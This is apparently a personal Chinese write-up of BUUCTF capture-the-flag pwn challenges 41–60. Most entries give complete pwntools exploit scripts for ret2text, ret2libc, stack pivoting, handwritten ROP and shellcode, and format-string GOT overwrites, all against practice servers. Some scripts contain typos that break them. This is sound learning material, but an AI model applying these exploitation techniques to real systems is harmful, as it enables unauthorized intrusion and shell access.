








# buu刷题记录（41-60题）

by Maple

## 41 picoctf_2018_buffer overflow 1

***ret2text***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29931)
def dbg():
    gdb.attach(p)
    pause()

payload = b'b'*0x28+b'b'*0x4+p32(0x80485CB)
p.sendline(payload)
p.interactive()
```

## 42 jarvisoj_test_your_memory

***ret2text***

别看题上那些有的没的，有个溢出点，有个`system`,还有`cat flag`字符串，直接构造rop

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27254)
def dbg():
    gdb.attach(p)
    pause()

sys = 0x80485C9
flag_addr = 0x80487E0
payload = b'b'*0x13+b'b'*0x4+p32(sys)+p32(flag_addr)
p.sendline(payload)
p.interactive()
```

## 43 [ZJCTF 2019]EasyHeap

施工中

## 44 hitcontraining_uaf

施工中

## 45 pwnable_orw

***沙箱***

就是ban了一些危险的函数，但是以获得flag为目的的话也不需要非得getshell

```python
from pwn import *

context(arch='i386',log_level = 'debug')
p = remote('node5.buuoj.cn',26440)
#p = process('./pwn')

bss = 0x804A060
shellcode = shellcraft.open('flag')
shellcode+=shellcraft.read('eax',bss+100,100)
shellcode+=shellcraft.write(1,bss+100,100)
payload = asm(shellcode)
p.recvuntil('shellcode:')
p.sendline(payload)
#log.info(p.recv())
p.interactive()
```

## 46 picoctf_2018_buffer overflow 2

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28047)
#gdb.attach(p)

payload = b'b'*0x6c+b'b'*0x4+p32(0x080485CB)+p32(0)+p32(0xDEADBEEF)+p32(0xDEADC0DE)
p.sendline(payload)
p.interactive()
```

## 47 cmcc_simplerop

***rop***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29845)
#gdb.attach(p)

read_addr = elf.sym['read']
pop_edx_ecx_ebx = 0x0806e850
binsh = 0x80EB584
int_addr = 0x80493e1	# int 0x80
pop_eax = 0x80bae06

payload = b'b'*0x20+p32(read_addr)+p32(0xdeadbeef)+p32(0)+p32(binsh)+p32(0x8)
payload+=p32(pop_eax)+p32(0xb)+p32(pop_edx_ecx_ebx)+p32(0)+p32(0)+p32(binsh)+p32(int_addr)

p.sendline(payload)

p.send('/bin/sh')
p.interactive()
```

### 分析分析

这种纯手工构造ROP还是可以分析分析的

- 首先是系统调用的知识，可以看[这里](https://blog.csdn.net/xiaominthere/article/details/17287965)

  - 省流一下：`int 0x80`就是系统调用（syscall），然后根据`syscall(n)`中n的值执行不同函数，其中`0xb`可以执行`execve`函数

- 接下来构造ROP

  - 先是溢出覆盖，这里ida显示的不对，动态调试可以发现实际的偏移是0x1c

    

    > 我们输入的相对位置是0x24,ebp的相对位置是0x40，实际偏移`0x40-0x24=0x1c`

  - 因为程序中没有`/bin/sh`函数，所以我们需要调用一下`read`函数，以此输入一个`/bin/sh`进去（这里binsh的地址是bss段，因为没开PIE，所以地址所见即所得）

  - 接下来第二行就是进行系统调用了，我们要申请的函数是

    ```c
    int 0x80(0xb,’/bin/sh‘, null, null);
    //对应寄存器eax, ebx,	 ecx,  edx
    ```

    这四个寄存器地址也确实可以搜到，所以根据寄存器依次输入需要的数就好

## 48 [Black Watch 入群题]PWN

***栈迁移+ret2libc***

因为没有RWX段，所以不可以写入shellcode然后栈迁移执行

```python
from pwn import *

#p = process('./pwn')
p = remote("node5.buuoj.cn", 25707)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')

main_addr = 0x8048513
lea_ret_addr = 0x8048511
plt_write = elf.plt['write']
got_write = elf.got['write']
bss_s_addr = 0x804A300

payload1 = b'a' * 4 + p32(plt_write) + p32(main_addr) + p32(1) + p32(got_write) + p32(4)
p.sendafter("name?", payload1)

payload2 = b'a' * 0x18 + p32(bss_s_addr) + p32(lea_ret_addr)
p.sendafter("say?", payload2)
write_addr = u32(p.recv(4))

offset = write_addr - libc.symbols['write']
binsh = offset + libc.search('/bin/sh').__next__()
system = offset + libc.symbols['system']

payload3 = b'aaaa' + p32(system) + b'aaaa' + p32(binsh)
p.sendafter("name?", payload3)

p.sendafter("say?", payload2)
p.interactive()
```


## 49 wustctf2020_getshell_2

***基础ROP***

system(/sh)也可以getshell

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()

elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28502)


sh = 0x08048670
call_sys = 0x8048529

payload = b'b'*0x18+b'b'*0x4+p32(call_sys)+p32(sh)
p.recvuntil(b'\n')
p.sendline(payload)
p.interactive()
```

## 50 mrctf2020_easyoverflow

***栈数据覆盖***

发现当`check(v5)`等于`n0t_r3@11y_f1@g`时会getshell，然后`v4`的读入不限制长度，可以覆盖掉v5的值

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29336)
payload = b'b'*0x30+b'n0t_r3@11y_f1@g'
p.sendline(payload)
p.interactive()
```


## 51 bbys_tu_2016

***ret2text***

ida里面的偏移有问题，需要动态调试看看



这里`-14`，说明偏移为14

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25770)
#gdb.attach(p)

flag_addr = 0x804856D
payload = b'b'*0x18+p32(flag_addr)
p.sendline(payload)
p.interactive()
```

## 52 xdctf2015_pwn200

***ret2libc***

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
context(os='linux', arch='amd64', log_level='debug')

e=ELF('./pwn')
p=remote('node5.buuoj.cn',25844)


write_got=e.got["write"]
write_plt=e.plt["write"]

main_add=e.sym["main"]

payload=b"a"*(0x6c+4)+p32(write_plt)+p32(main_add)+p32(1)+p32(write_got)+p32(5)

p.sendline(payload)

p.recvuntil("Welcome to XDCTF2015~!\n")

write=u32(p.recvuntil('\xf7')[-4:])
print("write:",hex(write))

libc_base=write-0xd43c0

system = 0x3a940 + libc_base
bin_sh = 0x15902b + libc_base

p.recvuntil("Welcome to XDCTF2015~!\n")

payload2=b"a"*(0x6c+4)+p32(system)+p32(main_add)+p32(bin_sh)

p.send(payload2)
p.interactive()
```

## 53 wustctf2020_closed

***重定向***

ida看一下

```c
__int64 vulnerable()
{
  puts("HaHaHa!\nWhat else can you do???");
  close(1);
  close(2);
  return shell();
}
```

关闭了标准输出（1）和错误输出（2），就算是getshell了也不会得到回显。所以可以利用`exec 1>&0`将标准输出重定向到标准输入

### 标准文件描述符

- **标准输入（stdin）**：使用文件描述符0（FD 0）表示，默认情况下终端键盘输入与其关联。
- **标准输出（stdout）**：使用文件描述符1（FD 1）表示，默认情况下终端屏幕显示与其关联。
- **标准错误（stderr）**：使用文件描述符2（FD 2）表示，默认情况下终端屏幕显示与其关联。

### 重定向

`exec 1>&0`是Shell命令行中的重定向语法，用于将标准输出重定向到标准输入，**因此后续的输出会被作为输入来处理**


所以只需要nc之后输入`exec 1>&0`就可以了

## 54 ciscn_2019_s_4

***栈迁移***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26010)
#gdb.attach(p)

leave_ret = 0x08048562
sys = elf.sym['system']

payload = b'a'*0x24+b'b'*0x4
p.sendafter('name?\n',payload)
p.recvuntil(b'bbbb')

leak_addr = u32(p.recv(4))	#	ebp的地址泄露出来
log.info("leak_addr:"+hex(leak_addr))
buf = leak_addr-0x38	# 回到栈顶

payload2 = p32(sys)+p32(0)+p32(buf+0xc)+b'/bin/sh\x00'	# 
payload2 = payload2.ljust(0x28,b'a')+p32(buf-4)+p32(leave_ret)

p.send(payload2)
p.interactive()
```

### 动态调试分析

- 先看下新栈的地址为什么是`ebp-0x38`
  - 
  - 这里是寄存器的地址，可以看到我们的字符串输入到了`760`处、而`ebp`指向了`798`处，相差`0x3`8字节，所以将栈迁移到这里，方便执行我们的输入

- ==payload2 = (p32(sys)+p32(0)+p32(buf+0xc)+b'/bin/sh\x00').ljust(0x28,b'a')+p32(buf-4)+p32(leave_ret)==

  - `p32(buf-4)`:将ebp覆盖为了`buf-4`,因为每执行一条指令之后eip会自动+4，这里将eip退回去，防止跳过指令

  - `p32(leave_ret)`：将返回地址覆盖为leave

    > 此时的栈结构
    >
    > | buf            |                   |
    > | -------------- | ----------------- |
    > | sys_addr       | system函数地址    |
    > | 0              | 返回地址（占位）  |
    > | buf+12         | /bin/sh的参数地址 |
    > | /bin/sh        |                   |
    > | 填充的剩余空间 |                   |
    > | buf-4          | 栈迁移后的ebp     |
    > | leave          | 执行leave_ret     |

## 55 [ZJCTF 2019]Login    

栈追踪？或许叭

函数是用c++写的，看起来有点令人头大

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/55/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

ida查看



在第14和16行发现要输入的账号和密码，不过肯定没有这么简单，执行看看

```shell
❯ ./pwn
 _____   _  ____ _____ _____   _                _
|__  /  | |/ ___|_   _|  ___| | |    ___   __ _(_)_ __
  / /_  | | |     | | | |_    | |   / _ \ / _` | | '_ \
 / /| |_| | |___  | | |  _|   | |__| (_) | (_| | | | | |
/____\___/ \____| |_| |_|     |_____\___/ \__, |_|_| |_|
                                          |___/
Please enter username: admin
Please enter password: 2jctf_pa5sw0rd
Password accepted: Password accepted:

[1]    4014 segmentation fault  ./pwn
```

==寄==

看别人的汇编发现在`password_checker`函数中有一个隐蔽的错误



主可以看到在`0x400A54`位置处有一个`call rax`指令，那么我们将rax修改为后门函数的地址就可以了（默认你找到那个后门函数了）



可以在`0x400A89`位置处发现rax的值由`var_18`确定，那么去找一下`var_18`在哪里



有的，兄弟，有的...

从`s`处（ebp-0x60)开始，到`var_18`(ebp-0x18),再除去已经输入的密码`2jctf_pa5sw0rd\x00`(0xe长度),我们需要填充的数据量为`0x60 - 0x18 - 0xe = 0x3a`

所以exp：

```python
from pwn import *

p = remote('node5.buuoj.cn',25872)
backdoor = 0x400e88
p.sendlineafter(': ','admin')
p.sendlineafter(': ',b'2jctf_pa5sw0rd'+b'\x00'*0x3a+p64(backdoor))
p.interactive()
```

## 56 picoctf_2018_shellcode

***ret2shellcode***

题比较简单，尝试了一下盲打

```shell
❯ ./pwn
Enter a string!
aaaaaa
aaaaaa
Thanks! Executing now...
[1]    2462 segmentation fault  ./pwn
```

根据运行情况，猜测是输入相关字符串并当作函数执行，所以直接写入`shellcode`试试

```python
from pwn import *
p = remote('node5.buuoj.cn',28483)
p.sendline(asm(shellcraft.sh()))
p.interactive()
```

然后打通了

## 57 hitcontraining_magicheap

施工中

## 58 jarviso_level1

本身应该挺简单的，但是远程和本地的输出不一样

本地：

```python
from pwn import *
context.log_level = 'debug'
p = process('./pwn')
p.recvuntil(b':')
buf_addr = int(p.recv(10),16)
log.info(hex(buf_addr))

payload = asm(shellcraft.sh()).ljust(0x87+0x4,b'b')+p32(buf_addr)
p.sendline(payload)
p.interactive()
```

接受buf的地址，然后`ret`回`buf`处执行`shellcode`

但是远程要先输入再回显，所以只能`ret2libc`

```python
from pwn import *
from LibcSearcher import *

p=remote('node5.buuoj.cn',29446)
elf=ELF("./pwn")
main_addr=0x80484b7
write_plt=elf.plt['write']
write_got=elf.got['write']

payload=b'a'*(0x88+0x4)+p32(write_plt)+p32(main_addr)+p32(0x1)+p32(write_got)+p32(0x4)

p.send(payload)
write_addr=u32(r.recv(4))

libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')

system_addr=libc_base+libc.dump('system')
bin_sh=libc_base+libc.dump('str_bin_sh')
payload =b'a'*(0x88+0x4)+p32(system_addr)+p32(main_addr)+ p32(bin_sh)

p.send(payload)
p.interactive()
```

## 59 axb 2019 fmt32

***fmt+ret2libc***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

printf_got = elf.got['printf']
printf_plt = elf.plt['printf']
payload = b'a'+p32(printf_got)+b'b'+b'%8$s'
p.sendlineafter(b'me:', payload)

p.recvuntil(b'b')
printf_addr = u32(p.recv(4))
log.info("prinf_addr:"+hex(printf_addr))

libc = LibcSearcher('printf',printf_addr)
libc_base = printf_addr - libc.dump('printf')
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')

payload2 = b'a'+fmtstr_payload(8,{printf_got:system},wirte_size = 'byte',numbwritten = 0xa)
p.sendline(payload2)
p.sendline('/bin/sh\x00')
p.interactive()
```

### 分析

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/59/pwn'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```



在第25行有明显`fmt漏洞`,经过输入查询发现我们的输入偏移为8（但不完全是）

> gdb测试的时候发现第一个字符的输入是存放在了第7个偏移处，所以应该先填充一个字符，防止后来的地址出现问题

在`printf_got`后面加一个`b'b'`为了做为`recvuntil()`的标记，泄露printf地址后就可以libc了

## 60 cinscn_s_9

***shellcode***

`checksec`一下

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/60/pwn'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
```

有`RWX`段,保护全关，估计`shellcode`,ida看看

```c
int pwn()
{
  char s[24]; // [esp+8h] [ebp-20h] BYREF

  puts("\nHey! ^_^");
  puts("\nIt's nice to meet you");
  puts("\nDo you have anything to tell?");
  puts(">");
  fflush(stdout);
  fgets(s, 50, stdin);
  puts("OK bye~");
  fflush(stdout);
  return 1;
}
void hint()
{
  __asm { jmp     esp }
}
```

有一个`jmp esp`函数，pwn函数里存在溢出点，但总计可以读入0x32字节，不够写`shellcraft.sh()`，所以要手写

这边梳理一下流程

`在栈上写入小shellcode->覆盖返回地址为jmp esp->让esp指向shellcode->主动调用esp`

exp:

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux',log_level = 'debug',arch='i386')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
shellcode = '''
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
mov    ecx, eax
mov    edx, eax
mov    al, 0xb
int    0x80
''''
shellcode = asm(shellcode)
payload = shellcode.ljust(0x24,b'\x00')+p32(0x8048554)
payload+=asm('sub esp,0x28;call esp')	# 0x24+0x4=0x28
p.sendline(payload)

p.interactive()
```


